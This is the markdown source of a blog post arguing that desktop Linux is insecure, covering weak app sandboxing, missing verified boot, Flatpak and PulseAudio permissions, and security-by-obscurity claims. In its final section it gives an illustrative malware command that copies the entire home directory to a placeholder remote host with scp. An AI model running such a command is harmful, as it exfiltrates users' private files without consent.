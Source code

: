 ```yaml
---
title: "Linux Insecurities"
date: 2022-08-15
tags: ['Operating Systems', 'Linux', 'Security',]
author: Tommy
---
```


There is a common misconception among privacy communities that Linux is one of the more secure operating systems, either because it is open-source or because it is widely used in the cloud. However, this is a far cry from reality.

There is already a very in-depth technical blog explaining the various security weaknesses of Linux by Madaidan, [Whonix](https://www.whonix.org/)'s Security Researcher. This page will attempt to address some of the questions commonly raised in reaction to his blog post. You can find the original article [here](https://madaidans-insecurities.github.io/linux.html).

![Madaidan's Linux Insecurities](/images/madaidan-insecurities-linux.png)

## Why is Linux used on servers if it is so insecure?

On servers, while most of the problems referenced in the article still exist, they are somewhat less problematic. 

On Desktop Linux, GUI applications run under your user, and thus have access to all of your files in `/home`. This is in contrast to how system daemons typically run on servers, where they have their own group and user. For example, NGINX will run under `nginx:nginx` on Red Hat distributions, or `www-data:www-data` on Debian based ones. Discretionary Access Control does help with filesystem access control for server processes, but is useless for desktop applications.

Another thing to keep in mind is that Mandatory Access Control is also somewhat effective on servers, as commonly run system daemons are confined. In contrast, on desktop, there is virtually no AppArmor profile to confine even regularly used apps like Chrome or Firefox, let alone less common ones. On SELinux systems, these apps run in the UNCONFINED SELinux domain.

Linux servers are lighter than Desktop Linux systems by orders of magnitude, without hundreds of packages and dozens of system daemons running like X11, audio servers, printing stack, and so on. Thus, the attack surface is much smaller.

## Linux Hardening Myths

There is a common claim in response to Madaidan that Linux is only insecure by default, and that an experienced user can make it the most secure operating system out there, surpassing the likes of macOS or ChromeOS. Unfortunately, this is wishful thinking. There is no amount of hardening that one can reasonably apply as a user to fix up the inherent issues with Linux.

### Lack of verified boot

macOS, ChromeOS, and Android have a clear distinction between the system and user installed application. In over simplified terms, the system volume is signed by the OS vendor, and the firmware and boot loader works to make sure that said volume has the authorized signature. The operating system itself is immutable, and nothing the user does will need or be allowed to tamper with the system volume.

On Linux, there is no such clear distinction between the system and user installed applications. Linux distributions are a bunch of packages put together to make a system that works, and thus every package is treated as part of said system. The end result is that binaries, regardless of whether they are vital for the system to function or just an extra application, are thrown into the same directories as each other (namely `/usr/bin` and `/usr/local/bin`). This makes it impossible for an end user to setup a verification mechanism to verify the integrity of "the system", as said "system" is not clearly defined in the first place.

### Lack of application sandboxing

Operating systems like Android and ChromeOS have full system mandatory access control, every process from the init process is strictly confined. Regardless of which application you install or how you install them, they have to play by the rules of an untrusted SELinux domain and are only able to utilize unprivileged APIs.

Even on macOS, where the application sandbox is opt-in for developers, there is still a permission control system (TCC) for unprivileged application. Apps run by the user do not have unrestricted access to their microphone, webcam, keystrokes, sensitive documents, and so on.

On Linux, it is quite the opposite. Out of the box, most systems only have a few system daemons confined. Some Linux distributions don't even have a Mandatory Access Control system at all. Applications are designed in an environment where they expect to be able to do whatever they want, and the app sandboxes/mandatory access control system are merely an afterthought trying to restrict an app to only access what it expects to be accessible. 

This is reflected in the under utilization of the [Portals API](https://docs.flatpak.org/en/latest/portal-api-reference.html) as an example. Portals is designed to be an API where apps have to prompt the user to access their files (through the File Manager) or their microphone and camera. Unfortunately, the vast majority of apps are not designed with this in mind, and expect direct access to the filesystem, pulseaudio socket or the entire `/dev`. As a result, Flatpak maintainers often opt to have extremely lax permissions to the point where they have to grant `filesystem=home`, `filesystem=host`, `socket=pulseaudio` or `devices=all`, otherwise apps will break and give users a bad experience.

To make matters worse, some system daemons are not designed with permission control in mind at all. For example, PulseAudio does not have any concept of audio in or out permission. Thus, the user is often left with only the choice of granting an app access to the socket or not. If they want to block microphone access, they have to block access to the socket, and thus break audio playback in the process. If they do want an audio playback, then they have to allow access to the PulseAudio socket, which in turns give an app unrestricted access to record them at any moment.

The only way to systematically fix this problem is to design a whole new system from scratch with a permission model like that of Android in mind. And even when that happens, it will take substantial work to get developers to develop their apps for said system.

## But Linux is open source!

Something being open source does not imply that it is inherently private, secure, or trustworthy. I recommend reading the [FLOSS Security](/knowledge/floss-security) post by [Rohan Kumar](https://seirdy.one/posts/2022/02/02/floss-security/).

## But there is less malware on Linux!

**Secuity by irrelevance does not work**. Just because there are fewer users of your favorite operating system does not make it any safer. 

Ask yourself this: Would you ditch Windows for ReactOS considering that it is a lot less popular and is less targetted? Likewise, would you ditch Linux desktop when it becomes the mainstream solution for the BSDs or some niche operating systems just because they are less popular?

Malware for Linux does exist, and it is not hard to make. It can be something as trivial as a shell script or binary executing `scp -r ~/ malware@xx.xx.xx.xx:/data`. Due to the lack of application sandboxing or an application permission model, your computer can be compromised the moment you execute a malicious binary, shell script, or install script with or without root and with or without an exploit. This is, of course, not to discount the fact that many exploits do exist on Linux just like on any other operating systems as well.